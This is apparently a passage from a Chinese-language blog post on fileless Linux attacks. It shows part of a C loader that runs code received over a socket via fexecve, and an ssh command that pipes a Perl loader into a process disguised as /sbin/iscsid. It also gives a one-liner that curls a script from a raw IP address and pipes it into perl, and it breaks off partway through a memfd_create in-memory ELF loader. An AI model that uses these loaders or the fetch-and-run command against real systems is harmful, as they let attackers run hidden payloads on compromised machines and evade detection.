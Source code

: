 ```c
      if ((read (s, buf, 1024) ) <= 0) break;
      write (fd, buf, 1024);
    }
  close (s);
  
  if (fexecve (fd, args, environ) < 0) exit (1);

  return 0;
    
}
```



#### 1.1.2 Python落地加载器

https://www.cnblogs.com/LittleHann/p/12049910.html#_label3_4_1_3

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/image-20211202151648960.png)

#### 1.1.3 Perl无文件加载器

https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html

```shell
cat ./elfload.pl | ssh user@target /bin/bash -c '"exec -a /sbin/iscsid perl"'
```

相对来说，三种姿势里面这种方式的无文件攻击隐蔽性最高。但是并不是每个人都对perl很熟，因此我研究了一下，实现了几种其他脚本语言的无文件攻击器。用它可以实现加载ELF、运行自定义命令。

## 2 Perl

perl版的代码最早来源于@magisterquis，国内不少关于这篇代码的分析都抄自”逢魔安全实验室“的分析。

https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html

实际上这份代码是目前最纯粹的无文件Linux攻击方案，代码非常之经典。它摆脱了加载器落地的问题，实现了真正的无文件。

### 无文件一句话

```shell
curl https://213.12.122.13:46379/py2e21ms20sm023sd320/core.pl|perl
```

### 服务器端部署

远程服务器上的待加载文件代码由三部分组成

**第一部分**

```shell
cat >> elfload.pl <<EOF
#!/usr/bin/env perl
use warnings;
use strict;

$l=1;
# Open a memory-backed file
print "Marking anonymous file...";
my $name = "";
my $fd = syscall(319,$name,1);
if (-1 == $fd) {
    die "memfd_create: $!";
}
print "fd $fd";

# Make a nice Perl file handle
open(my $FH, '>&='.$fd) or die "open: $!";
select((select($FH),$l=1)[0]);
```
